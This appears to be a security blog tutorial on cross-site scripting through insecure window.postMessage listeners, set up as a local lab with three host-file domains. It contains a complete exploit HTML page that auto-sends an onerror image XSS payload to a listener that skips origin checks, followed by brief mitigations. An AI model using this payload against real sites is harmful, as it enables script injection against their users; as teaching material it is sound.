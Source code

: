 # INTRODUCTION

Due to the `same-origin policy`, scripts from different pages cannot interact with each other. They are only permitted to access each other if the pages they originate from share the same protocol, port number, and host. This policy is in place to prevent websites from attacking each other. Without the same-origin policy, visiting a malicious website could potentially allow it to access your emails from Gmail, private messages from Facebook, and so on.

However, this policy introduces `restrictions` that can limit functionality in web applications requiring `cross-origin communication`. For instance, consider a web application that embeds a third-party payment gateway within an iframe. The main page needs to communicate with the payment gateway to process transactions. Due to the same-origin policy, the main page cannot directly interact with the iframe's content because they originate from different domains.

To address these challenges, `window.postMessage()` is introduced. It is a method that safely enables `cross-origin communication` between Window objects. For example, it facilitates communication between a page and a pop-up it spawned, or between a page and an iframe embedded within it. This is achieved by using the postMessage method to send data from the sender's side and setting up an `event listener` to receive the data on the receiver's side.

For instance, to send a message to a third-party iframe embedded within a webpage, you can utilize the postMessage method. This method specifies both the message content to be sent and the target origin as follows:

```javascript

thirdPartyIframe.contentWindow.postMessage(message, 'https://third-party.com');

```

Here, it accesses the window object of the embedded iframe, then invokes postMessage method to send the message to the iframe's window, ensuring it is received only by iframes loaded from the specified targetOrigin ('https://third-party.com').

On the receiving side, the iframe must implement an event listener using `addEventListener` to receive the message sent from the sender:


```javascript

window.addEventListener('message', function(event) {
        const response = event.data;
});
```

This allows exchange of data between different parts of a web application while adhering to browser security policies. However, insecure use of postMessage could lead to vulnerabilities like XSS (Cross-Site Scripting), as demonstrated below.

# LAB SETUP

For this demo, we set up a local web server running at 127.0.0.1, and we added host file entries for three different origins:

- mainweb.com: This is the main web page that embeds the third-party web page and sends messages to thirdparty.com using postMessage.
- thirdparty.com: This acts as the third-party site, receiving and processing messages from any domain.
- exploit.com: This is the attacker domain where the malicious script is hosted to exploit the XSS vulnerability in thirdparty.com.

# IDENTIFYING POSTMESSAGE XSS

To identify postMessage XSS, we first need to determine : 

- Whether the target application utilizes `web messaging`.
- Whether the `origin` of the sender is `validated` on the receiving event listener.
- Whether the message event is handled using `functions` or `attributes` that can lead to an `XSS`. 

Let's start with the first point. The most effective method to identify the use of postMessage in a web application is by utilizing the `global search option` in the developer tools. This allows us to search for specific keywords in the JavaScript files, such as `postMessage()`, `addEventListener`, and others.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/devtool.png)

As we can see, by using developer tool, we're able to identify the usage of postMessage in this web application. Let's examine the file.


![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-mainweb.png)

This is straightforward: it makes use of postMessage to send a message to the webpage embedded within it, which is `thirdparty.com/receiver.html`. With this understanding, let's now analyze the event listener responsible for processing the message. We can employ the same method to search for the `addEventListener` keyword.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/devtool1.png)

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-thirdparty.png)

By analysing the event listener, we can see `it doesn't validate the origin of the message`, this means it can receive and process a message originating from any domain. This is useful for attacker as his malicious script needs to be hosted in different domain, so without origin validation, attacker can have his script hosted in malicious website and get his payload handled and processed by the event listener of the vulnerable website.

Lastly, we need to examine the functions or attributes used to handle the message event. To do this, we first need to know the list of `functions` and `attributes` that could lead to XSS.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/listfunc1.png)

There is a possibility of XSS if any of the mentioned functions or attributes are used to handle a message event. In our case, `document.innerHTML` is used to display the message on the webpage, which can lead to XSS vulnerabilities if the message is not properly sanitized or validated.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-function.png)

Therefore, we can craft an XSS payload, host it on our malicious website, and trick a user into visiting our site. This will trigger our script, which will then send the payload to the vulnerable website, causing it to execute which will result in an XSS attack.

# EXPLOITING POSTMESSAGE XSS

Since we have identified the use of web messaging and the possibility of an XSS attack on the vulnerable application, we will attempt to exploit it by crafting a malicious payload and hosting it on our malicious domain, exploit.com. The payload will be written as follows:

```html

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PostMessage XSS Exploit</title>
    <script>
        function sendExploitMessage() {
            const targetWindow = document.getElementById('targetIframe').contentWindow;
            const maliciousMessage = '<img src=x onerror=alert("Exploited")>';
            targetWindow.postMessage(maliciousMessage, '*');
        }

        window.onload = function() {
            sendExploitMessage();
        }
    </script>
</head>
<body>
    <h1>PostMessage XSS Exploit</h1>
    <iframe id="targetIframe" src="http://thirdparty.com/receiver.html" width="600" height="400"></iframe>
</body>
</html>

```

The `sendExploitMessage()` function is designed to send the payload to the vulnerable website. The message contains our XSS payload. Whenever a victim visits our malicious site, the window.onload event will automatically call sendExploitMessage, which sends our payload to the vulnerable page at thirdparty.com/receiver.html. This will trigger the payload, resulting in an XSS attack.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/exploit.png)

Upon visiting the malicious site, our XSS payload is executed on the vulnerable endpoint within the thirdparty.com domain.

# Mitigations

- If the application does not require communication such as receiving messages from other websites, it is advised to not utilize the event listeners for the message events unnecessarily.
- Always verify the sender’s identity using the origin.
